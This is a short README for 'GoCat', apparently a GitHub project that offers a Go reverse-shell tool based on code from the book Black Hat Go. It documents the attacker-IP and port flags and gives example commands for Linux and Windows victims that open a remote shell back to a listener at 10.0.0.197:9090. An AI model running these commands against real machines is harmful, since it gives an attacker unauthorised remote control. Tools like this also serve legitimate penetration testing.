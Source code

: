 # GoCat
A self-contained implementation of a reverse shell (netcat-like). It is an improvement based on the source code found on the book blackhat Go 

## Author
Alan Lacerda (alacerda) | intruderLabs team

## Usage
The command accepts 2 parameter:

-p string

        Port where the attacker is expecting the reverse shell back.

-s string

        Attacker's IP address to send the shell back.

### Examples
If the attacker's IP address is 10.0.0.197 and the attacker started a listener on TCP port 9090 waiting for a connection back from the victim:

#### Linux Victim
./gocat -s 10.0.0.197 -p 9090

#### Windows victim
gocat.exe -s 10.0.0.197 -p 9090
